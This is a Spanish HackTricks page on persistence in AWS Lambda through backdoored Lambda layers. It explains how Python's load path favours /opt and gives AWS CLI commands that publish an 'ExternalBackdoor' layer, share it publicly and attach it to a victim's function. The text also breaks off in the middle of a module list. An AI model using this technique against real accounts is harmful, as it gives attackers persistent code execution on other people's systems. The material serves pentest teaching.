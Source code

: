 # AWS - Persistencia de capas de Lambda

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## Capas de Lambda

Una capa de Lambda es un archivo .zip que **puede contener código adicional** u otro contenido. Una capa puede contener bibliotecas, un [tiempo de ejecución personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), datos o archivos de configuración.

Es posible incluir hasta **cinco capas por función**. Cuando se incluye una capa en una función, los **contenidos se extraen al directorio `/opt`** en el entorno de ejecución.

Por **defecto**, las **capas** que creas son **privadas** para tu cuenta de AWS. Puedes elegir **compartir** una capa con otras cuentas o **hacer** la capa **pública**. Si tus funciones consumen una capa que publicó una cuenta diferente, tus funciones pueden **seguir usando la versión de la capa después de que se haya eliminado, o después de que se haya revocado tu permiso para acceder a la capa**. Sin embargo, no puedes crear una nueva función o actualizar funciones usando una versión de capa eliminada.

Las funciones implementadas como una imagen de contenedor no usan capas. En su lugar, empaquetas tu tiempo de ejecución preferido, bibliotecas y otras dependencias en la imagen del contenedor cuando construyes la imagen.

### Ruta de carga de Python

La ruta de carga que Python usará en lambda es la siguiente:

```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```

Comprueba cómo las **segunda** y tercera **posiciones** están ocupadas por directorios donde las **capas de lambda** descomprimen sus archivos: **`/opt/python/lib/python3.9/site-packages`** y **`/opt/python`**

{% hint style="danger" %}
Si un atacante logra **insertar una puerta trasera** en una **capa de lambda** utilizada o **añadir una capa** que **ejecute código arbitrario cuando se carga una biblioteca común**, podrá ejecutar código malicioso con cada invocación de lambda.
{% endhint %}

Por lo tanto, los requisitos son:

* **Comprobar las bibliotecas** que son **cargadas** por el código de la víctima
* Crear una **biblioteca proxy con capas de lambda** que **ejecute código personalizado** y **cargue la biblioteca original**.

### Bibliotecas precargadas

{% hint style="warning" %}
Al abusar de esta técnica encontré una dificultad: Algunas bibliotecas ya están **precargadas** en el tiempo de ejecución de Python cuando se ejecuta tu código. Esperaba encontrar cosas como `os` o `sys`, pero **incluso la biblioteca `json` estaba cargada**.\
Para abusar de esta técnica de persistencia, el código necesita **cargar una nueva biblioteca que no esté cargada** cuando se ejecute el código.
{% endhint %}

Con un código Python como este, es posible obtener la **lista de bibliotecas que se precargan** dentro del tiempo de ejecución de Python en lambda:

```python
import sys

def lambda_handler(event, context):
    return {
        'statusCode': 200,
        'body': str(sys.modules.keys())
    }
```

Y esta es la **lista** (comprueba que bibliotecas como `os` o `json` ya están allí)

```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simple
# Subir capa backdoor
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Dar acceso a todo el mundo a la capa lambda
## Ponga el número de cuenta en --principal para dar acceso solo a una cuenta
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Agregar capa a la lambda de la víctima

# Eliminar permisos
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1